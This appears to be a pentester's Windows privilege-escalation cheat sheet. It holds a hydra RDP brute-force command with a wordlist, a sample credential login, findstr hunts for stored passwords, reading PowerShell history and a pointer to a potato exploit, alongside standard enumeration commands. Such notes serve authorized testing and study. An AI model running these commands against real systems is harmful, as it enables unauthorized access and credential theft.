 CHECK IF net users have RDP access or not - IF they do try use hyrda to bruteforce RDP login
hydra -l user -P /usr/share/wordlists/rockyou.txt rdp://192.168.2.x
Login using : xfreerdp /u:Tim /p:ashley /v:192.168.2.x


systeminfo
net config Workstation 
net users
```
What is running on the machine? 
```
wmic service list full > services.txt
wmic process > processes.txt
```
### Search for file contents
```
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt
findstr /spin "password" *.*
```

### User privileges
```
whoami /priv

IF SEImpersonate Privilege is enababled THEN perform sweet potato exploit
```

### Search history ConsoleHost_history.txt
```
C:\users\USERNAME\Appdata\Roaming\Microsoft\Windows\Powershell\PSReadline\

type .\Appdata\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

### Processes running as system
```
tasklist /v /fi "username eq system"
```
### List Services
```
net start
wmic service list brief
tasklist /SVC
```
### Enumerate scheduled tasks
```
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
### Check file Permissions 
```
icacls file_name

Look for 
BUILTIN\Users:(F)(Full access), BUILTIN\Users:(M)(Modify access) or BUILTIN\Users:(W)(Write-only access) in the output.
```
### Running Windows Privesc Check
```
git clone https://github.com/pentestmonkey/windows-privesc-check
cd windows-privesc-check/
python -m SimpleHTTPServer 80
